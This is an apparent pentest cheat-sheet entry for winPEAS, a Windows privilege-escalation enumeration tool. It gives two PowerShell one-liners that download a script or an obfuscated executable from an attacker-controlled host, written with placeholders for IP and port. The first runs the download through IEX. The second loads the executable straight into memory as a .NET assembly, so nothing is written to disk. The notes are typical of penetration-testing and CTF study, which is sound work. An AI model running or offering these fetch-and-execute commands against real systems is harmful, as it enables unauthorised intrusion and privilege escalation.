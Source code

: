 # winpeas

#plateform/windows #target/local #cat/RECON #tag/powershell

## ps1 - oneliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/<dl_winpeas_path>winPEAS.ps1') | IEX
```

## exe - oneliner
https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
```powershell
$url="http://<local_ip>:<port|80>/<dl_winpeas_path>winPEASany_ofs.exe";$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
``` 

= dl_winpeas_path: windows/